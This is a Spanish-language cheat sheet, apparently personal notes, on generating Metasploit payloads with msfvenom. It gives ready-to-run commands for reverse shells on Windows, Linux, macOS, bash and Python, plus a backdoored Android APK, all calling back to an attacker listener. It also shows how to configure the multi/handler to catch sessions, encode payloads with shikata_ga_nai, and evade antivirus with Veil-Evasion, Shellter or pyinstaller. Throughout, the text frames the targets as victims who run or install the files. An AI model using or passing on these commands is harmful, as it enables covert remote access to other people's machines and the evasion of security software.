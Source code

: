 [[MSFVenom🔥]]
## 🔹 **1. Payloads Comunes**

Aquí hay ejemplos de cómo generar payloads para diferentes sistemas operativos.

### 📌 **Windows - Meterpreter Reverse Shell**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
```

✅ **Genera un archivo `shell.exe` que, cuando se ejecute en la víctima, enviará una conexión inversa a tu máquina.**

---

### 📌 **Linux - Meterpreter Reverse Shell**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o shell.elf
```

✅ **Genera un ejecutable ELF para Linux.**

---

### 📌 **Android - Backdoor APK**

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f apk -o backdoor.apk
```

✅ **Crea un APK malicioso que, cuando la víctima lo instale, dará acceso remoto.**

---

### 📌 **MacOS - Reverse Shell**

```bash
msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f macho -o shell.macho
```

✅ **Payload para MacOS en formato `.macho`.**

---

## 🔹 **2. Ejecutar el Payload en Metasploit**

Una vez generado el payload, abre Metasploit y configura un **listener** para recibir conexiones.

1️⃣ **Abrir Metasploit:**

```bash
msfconsole
```

2️⃣ **Configurar el handler:**

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run
```

✅ **Cuando la víctima ejecute el payload, obtendrás acceso remoto con Meterpreter.**

---

## 🔹 **3. Codificar y Ofuscar Payloads**

Los antivirus pueden detectar los payloads generados. Puedes codificarlos para evadir detección.

### 📌 **Ejemplo: Codificar con `shikata_ga_nai`**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o shell_hidden.exe
```

✅ `-e x86/shikata_ga_nai` → Usa el encoder `shikata_ga_nai`.  
✅ `-i 5` → Codifica el payload 5 veces.

---

## 🔹 **4. Formatos de Salida (`-f`)**

Puedes generar payloads en diferentes formatos:

|Formato|Descripción|
|---|---|
|exe|Windows ejecutable|
|elf|Linux ejecutable|
|apk|Android APK|
|macho|MacOS ejecutable|
|raw|Código en bruto|
|c|Código en C|
|python|Código en Python|
|bash|Script en Bash|

Ejemplo:

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.100 LPORT=4444 -f raw
```

✅ **Genera un shell reverso en Bash.**

---

## 🔹 **5. Bypass Antivirus**

Los antivirus detectan payloads estándar. Para evadir detección:

- Usa codificación (`-e x86/shikata_ga_nai`).
- Modifica el código (`-f c` y compílalo manualmente).
- Usa herramientas como **Veil-Evasion** o **Shellter**.

Ejemplo de payload en Python:

```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw
```

Después lo modificas en un script `.py` y lo compilas con `pyinstaller`.

---